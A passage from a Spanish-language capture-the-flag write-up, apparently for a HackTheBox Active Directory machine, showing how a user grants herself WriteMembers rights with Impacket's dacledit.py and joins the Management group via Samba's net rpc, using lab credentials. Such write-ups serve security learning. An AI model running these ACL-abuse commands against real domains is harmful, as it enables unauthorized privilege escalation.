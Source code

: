 - 2º [dacledit.py](# "Script de Impacket que modifica las ACL en Active Directory para otorgar o revocar permisos sobre un objeto.") para otorgarnos permisos de escritura.

```python
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=Certified,DC=HTB' 'certified.htb/judith.mader:judith09'
```

- 3º [net](# "Herramienta de Samba que permite administrar usuarios y grupos en entornos Windows/AD desde la línea de comandos.") para añadirnos al grupo.

```python
net rpc group addmem "Management" "judith.mader" -U "certified.htb/judith.mader%judith09" -S "10.10.11.41"
```

Con esto nos añadimos al grupo. Para confirmar si estamos dentro, podemos usar [rpcclient](# "Herramienta de Samba que permite interactuar con servicios RPC de Windows para enumerar y administrar recursos de un dominio.").

![us](../../../../../assets/certified/users.png)

Ya podemos confirmar que nos hemos añadido correctamente.

![no](../../../../../assets/certified/rpcju.png)
